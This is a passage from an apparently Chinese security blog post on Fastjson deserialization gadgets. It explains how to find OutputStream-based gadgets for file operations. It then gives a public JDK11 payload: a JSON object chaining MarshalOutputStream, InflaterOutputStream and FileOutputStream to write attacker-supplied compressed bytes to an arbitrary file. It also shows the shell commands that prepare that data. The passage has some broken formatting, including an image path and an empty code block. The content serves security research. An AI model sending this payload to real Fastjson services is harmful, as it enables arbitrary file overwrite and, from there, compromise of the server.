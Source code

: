 ```


```

执行结果：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113650-f8ea9170-a31b-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113650-f8ea9170-a31b-1.jpg)

#### 文件相关操作

Gadget 寻找思路 (浅蓝师傅提供)：

*   通过 set 方法或构造方法指定文件路径的 OutputStream
*   通过 set 方法或构造方法传入字节数据的 OutputStream，并且可以通过 set 方法或构造方法传入一个 OutputStream，最后可以通过 write 方法将传入的字节码 write 到传入的 OutputStream
*   需要一个通过 set 方法或构造方法传入一个 OutputStream，并且可以通过调用 toString、hashCode、get、set、构造方法调用传入的 OutputStream 的 flush 方法  
    下面是个网络上公开的一个 Gadget，目前只适用于 JDK11 版本：  
    ```java  
    $ echo -ne "RMB122 is here" | openssl zlib | base64 -w 0  
    eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==

$ echo -ne "RMB122 is here" | openssl zlib | wc -c  
22

```
载荷如何：
```java
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'dst',
           'append':false
        },
        'infl':
        {
            'input':
            {
                'array':'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',
                'limit':22
            }
        },
        'bufLen':1048576
    },
    'protocolVersion':1
}

```
